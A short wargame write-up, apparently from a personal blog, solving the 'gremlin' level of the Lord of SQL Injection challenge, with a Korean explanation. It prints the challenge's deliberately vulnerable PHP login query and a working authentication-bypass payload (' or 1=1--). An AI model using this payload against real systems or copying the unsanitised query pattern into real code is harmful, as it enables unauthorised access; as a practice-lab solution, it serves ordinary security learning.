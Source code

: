 ```yaml
---
layout: post
title:  "los prob_gremlin"
date:   2019-08-10
excerpt: "Lord of Sql Injection"
tag:
- los
- sqli
- wargame
- webhacking
comments: true
---
```

>query: select id from prob_gremlin where id='' and pw=''
~~~ php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
~~~

# Solve
딱히 필터링이 없으므로 바로 sql injection 구문을 넣으면 된다. 

?id=' or 1=1-- 

실행되는 구문 -> select id from prob_gremlin where id='' or 1=1-- ' and pw=''

## GREMLIN Clear!
